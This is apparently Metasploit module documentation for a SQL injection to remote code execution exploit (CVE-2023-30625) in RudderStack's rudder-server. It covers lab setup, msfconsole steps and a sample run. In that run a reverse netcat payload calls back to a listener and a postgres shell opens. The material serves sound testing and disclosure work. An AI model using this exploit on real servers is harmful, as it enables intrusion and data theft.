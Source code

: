 ## Vulnerable Application

RudderStack is an open-source Customer Data Platform (CDP) that helps organizations collect,
unify, and route customer data to various destinations.
A Customer Data Platform is a software system that centralizes and manages customer data from multiple sources,
providing a unified view of customer interactions and behaviors.
RudderStack is an independent, stand-alone system with a dependency only on the database (PostgreSQL).
Its backend is written in Go with a rich UI written in React.js.

This Metasploit exploit module targets a SQL injection vulnerability (CVE-2023-30625) in RudderStack's `rudder-server`,
an open-source Customer Data Platform (CDP). The vulnerability affects versions of `rudder-server` before 1.3.0-rc.1.
By exploiting this flaw, an attacker can execute arbitrary SQL commands,
potentially leading to Remote Code Execution (RCE) since the `rudder` role in PostgreSQL has superuser permissions by default.
This issue was discovered and reported by GHSL team member @Kwstubbs (Kevin Stubbings).
Check [here](https://securitylab.github.com/advisories/GHSL-2022-097_rudder-server/) for full disclosure writeup.

## Testing
For installing the vulnerable version follow the steps below,
1. Download [docker-compose.yml](https://raw.githubusercontent.com/rudderlabs/rudder-server/master/rudder-docker.yml) file.
2. Replace `<your_workspace_token>` in this file with your workspace workspace-token
Check [here](https://www.rudderstack.com/docs/get-started/rudderstack-open-source/data-plane-setup/docker/#workspace-token)
for obtaining workspace-token.
3. Edit `rudder-server:latest` version as `rudder-server:1.2.5` inside the docker-compose.yml file.
4. Run `docker compose -f rudder-docker.yml up -d`

After these steps the rudder-server API will be exposed on the `http://localhost:8080/` address.

## Verification Steps

1. msfconsole
2. Do: `use exploit/multi/http/rudder_server_sqli_rce`
3. Do: `set RHOST [IP]`
4. Do: `set RPORT [PORT]`
5. Do: `check`
6. You should get a shell.

## Options

### API_USER
The Rudder API basic authentication username (Default: 'key'). (Optional)

### API_PASS
The Rudder API basic authentication password. (Optional)

## Scenarios

```
msf6 > use exploit/multi/http/rudder_server_sqli_rce 
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(multi/http/rudder_server_sqli_rce) > set rhosts 192.168.1.20
rhosts => 192.168.1.20
msf6 exploit(multi/http/rudder_server_sqli_rce) > set lhost 192.168.1.10
lhost => 192.168.1.10
msf6 exploit(multi/http/rudder_server_sqli_rce) > set lport 4444
lport => 4444
msf6 exploit(multi/http/rudder_server_sqli_rce) > run

[*] Started reverse TCP handler on 192.168.1.10:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Cannot reliably check exploitability. ForceExploit is enabled, proceeding with exploitation.
[*] Detected rudder version: Unknown
[*] Triggering RCE via crafted SQL query...
id
uid=70(postgres) gid=70(postgres) groups=70(postgres),70(postgres)

```
